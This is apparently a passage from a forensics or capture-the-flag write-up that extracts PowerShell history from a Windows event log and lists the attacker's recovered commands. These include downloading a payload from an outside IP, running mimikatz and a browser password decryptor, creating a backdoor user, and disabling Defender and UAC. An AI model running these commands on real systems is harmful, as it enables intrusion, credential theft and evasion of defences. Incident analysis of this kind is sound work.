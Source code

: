 We can carve out the interesting events from the PowerShell Operation event log with `evtx_dump` ([`powershell.txt`](files/powershell.txt)).

```bash
$ fd -e .evtx PowerShell.*Operational.evtx -x evtx_dump -o jsonl | jq .Event.EventData.ScriptBlockText
```

The relevans PowerShell commands are the following:

```powershell
whoami
systeminfo
net user /domain
net user
net user Guess password /ADD
Set-LocalUser -Name Guess -PasswordNeverExpires $true
pwd
ipconfig
cd C:\\User
cd C:\\Users
dir
cd tommyxiaomi
cd Documents
dir
Invoke-WebRequest -URI "http://13.53.200.146/intel.zip" -OutFile "./intel.zip"
&"C:\Program Files\7-Zip\7z.exe" x -p hoilamgi intel.zip
&"C:\Program Files\7-Zip\7z.exe" x -phoilamgi intel.zip
./mimikatz.exe
./fscan64.exe
& "./intel.exe"
Get-MpComputerStatus | select IsTamperProtected
Set-MpPreference -DisableRealtimeMonitoring $true
Get-MpComputerStatus | Select-Object -Property Antivirusenabled,AMServiceEnabled,AntispywareEnabled,BehaviorMonitorEnabled,IoavProtectionEnabled,NISEnabled,OnAccessProtectionEnabled,RealTimeProtectionEnabled,IsTamperProtected,AntivirusSignatureLastUpdated
Dism /online /Disable-Feature /FeatureName:Windows-Defender /Remove /NoRestart /quiet
New-ItemProperty -Path ΓÇ£HKLM:\SOFTWARE\Policies\Microsoft\Windows DefenderΓÇ¥ -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force
Set-MpPreference -DisableRemovableDriveScanning $true
Set-MpPreference -DisableArchiveScanning $True
Get-MpPreference|select DisableArchiveScanning
Get-MpComputerStatus | Select RealTimeProtectionEnabled, IoavProtectionEnabled,AntispywareEnabled | FL
cmd.exe /c "C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f"
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MPPreference -DisableBehaviourMonitoring $true
Set-MPPreference -DisableBehaviourMonitoring $true
Add-MpPreference -ExclusionPath 'C:\Users\tommyxiaomi\Documents' -ExclusionExtension '.exe' -Force
Set-MpPreference -DisableRealtimeMonitoring $true;Set-MpPreference -DisableIOAVProtection $true;Set-MPPreference -DisableBehaviorMonitoring $true;Set-MPPreference -DisableBlockAtFirstSeen $true;Set-MPPreference -DisableEmailScanning $true;Set-MPPReference -DisableScriptScanning $true;Set-MpPreference -DisableIOAVProtection $true;Add-MpPreference -ExclusionPath "C:\Users\tommyxiaomi\Documents"
&"C:\Program Files\7-Zip\7z.exe" x -phoilamgi intel.zip
./browser-pw-decrypt.exe
./browser-pw-decrypt.exe all
& "./intel.exe"
rm ./*.exe -force
rm intel.zip -force
exit
```
